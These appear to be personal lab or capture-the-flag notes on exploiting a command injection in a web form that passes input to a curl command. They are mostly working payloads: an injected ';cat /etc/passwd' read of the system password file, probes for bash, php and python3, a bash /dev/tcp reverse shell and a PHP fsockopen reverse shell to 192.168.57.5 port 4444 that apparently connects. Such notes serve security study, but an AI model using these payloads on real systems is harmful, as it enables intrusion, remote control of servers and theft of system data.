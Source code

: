 Command running is 
Command: curl -I -s -L | grep "HTTP/"


i/p:  
;cat /etc/passwd;asd
Command: curl -I -s -L ;cat /etc/passwd;asd | grep "HTTP/"

no i/p given to curl so it will thorw an error
print the /etc/passwd file data
pass random data to grep command

use ; to separate commands

Try to get a reverse shell when we have command injection

i/p
;which bash;asd

![[Pasted image 20230715151947.png]]

it is bash shell


i/p for reverse shell

; /bin/bash -i >& /dev/tcp/192.168.57.5/4444 0>&1;asd

this dosent work in this case

i/p:
;which php;asd

![[Pasted image 20230715152426.png]]

so its path is /usr/local/bin/php

i/p:

;which python3;asd

no result

try php payload

i/p
/usr/local/bin/php -r '$sock=fsockopen("192.168.57.5",4444);exec("/bin/sh -i <&3 >&3 2>&3");';asd

dosent load immediately so probable connection established

![[Pasted image 20230715152949.png]]

